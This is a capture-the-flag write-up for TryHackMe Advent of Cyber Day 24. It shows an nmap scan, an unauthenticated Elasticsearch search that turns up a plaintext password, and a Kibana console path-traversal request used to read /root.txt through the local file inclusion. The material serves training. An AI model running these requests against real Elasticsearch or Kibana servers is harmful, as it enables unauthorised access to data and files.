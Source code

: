 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 24
## Reconnaissance
```bash
$ nmap -sV -p- -vv 10.10.46.92 
PORT     STATE SERVICE   REASON  VERSION
22/tcp   open  ssh       syn-ack OpenSSH 7.4 (protocol 2.0)
111/tcp  open  rpcbind   syn-ack 2-4 (RPC #100000)
5601/tcp open  esmagent? syn-ack
8000/tcp open  http      syn-ack SimpleHTTPServer 0.6 (Python 3.7.4)
9200/tcp open  http      syn-ack Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
9300/tcp open  vrace?    syn-ack
```
## Find the password in the database
```json
$ curl -s '10.10.46.92:9200/_search?q=password' | python -m json.tool
{
    "took": 16,
    "timed_out": false,
    "_shards": {
        "total": 6,
        "successful": 6,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": 1,
        "max_score": 2.0136302,
        "hits": [
            {
                "_index": "messages",
                "_type": "_doc",
                "_id": "73",
                "_score": 2.0136302,
                "_source": {
                    "sender": "mary",
                    "receiver": "wendy",
                    "message": "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
                }
            }
        ]
    }
}
```

**Answer**: `9Qs58Ol3AXkMWLxiEyUyyf`
## Read the contents of the `/root.txt` file
curl -s '10.10.46.92:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../root.txt'
curl -s '10.10.46.92:8000/kibana-log.txt' | grep "ReferenceError"